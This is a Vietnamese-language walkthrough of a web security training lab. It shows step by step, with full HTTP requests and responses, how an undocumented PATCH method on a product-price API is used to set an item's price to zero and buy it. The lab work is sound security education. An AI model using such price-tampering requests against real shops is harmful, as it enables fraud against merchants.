 # **Lab: Finding and exploiting an unused API endpoint**

>  To solve the lab, exploit a hidden API endpoint to buy a `Lightweight l33t Leather Jacket`. You can log in to your own account using the following credentials: `wiener:peter`.  

# **Solution**

Ở giao diện web, chọn `View details` sản phẩm mục tiêu là `Lightweight l33t Leather Jacket.  

Trong giao diện `HTTP history` của Burpsuite, ta thấy có request vừa bắt được với method GET tới URL `/api/products/1/price`. Gửi request này tới repeater. Ta thử thay đổi giá trị product id từ 1 sang các giá trị khác.

Ta nhận được giá các sản phẩm khác. Giờ thử thay đổi HTTP method của req này từ GET tới các phương thức khác:

```
POST /api/products/1/price HTTP/2
```

```
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Ta thấy api chỉ chấp nhận method GET và PATCH, thử dùng phương thức PATCH:

```
HTTP/2 401 Unauthorized
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"Unauthorized"
```

Ta thấy lỗi `Unauthorized`. Vậy là cần đăng nhập trước.

Đăng nhập bằng tài khoản `wiener:peter` và thực hiện lại.

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 93

{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```

Ta thấy thông báo lỗi `"Only 'application/json' Content-Type is supported"`. Vậy là chỉ có Content-Type application/json được hỗ trợ.  
Sửa đổi HTTP request phần `Content-Type` sang `application/json`.

Vì HTTP request hiện tại chưa có mục này nên ta sẽ thêm header `Content-Type` và set value là `application/json`.

```
PATCH /api/products/1/price HTTP/2
Host: 0a1b00b304ffd9ef801f301000e600dc.web-security-academy.net
Cookie: session=HrykKiVMqCPdE26x5FDpZuUoNe4DkiWa
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1b00b304ffd9ef801f301000e600dc.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Sau khi send request, ta thấy lỗi `Internal Server Error`.

Mục đích ta đang thực hiện là thay đổi giá trị price của sản phẩm bằng phương thức PATCH.

> "PATCH is somewhat analogous to the "update" concept found in CRUD (in general, HTTP is different than CRUD, and the two should not be confused)."

Và ta có:

```
PATCH /file.txt HTTP/1.1
Host: www.example.com
Content-Type: application/example
If-Match: "e0023aa4e"
Content-Length: 100

[description of changes]
```

Vậy nên giờ ta sửa đổi HTTP request của mình, thêm phần price trong request.

```
PATCH /api/products/1/price HTTP/2
Host: 0a1b00b304ffd9ef801f301000e600dc.web-security-academy.net
Cookie: session=HrykKiVMqCPdE26x5FDpZuUoNe4DkiWa
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1b00b304ffd9ef801f301000e600dc.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Length: 21

{
	"price": 0
}

```

```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```

Okey done, sau khi tải lại trang thì ta thấy giá sản phẩm bây giờ là 0.

Giờ thì `Add to cart` và thanh toán thuii:>

![image](https://ih1.redbubble.net/image.3205821918.1712/flat,750x,075,f-pad,750x1000,f8f8f8.jpg)
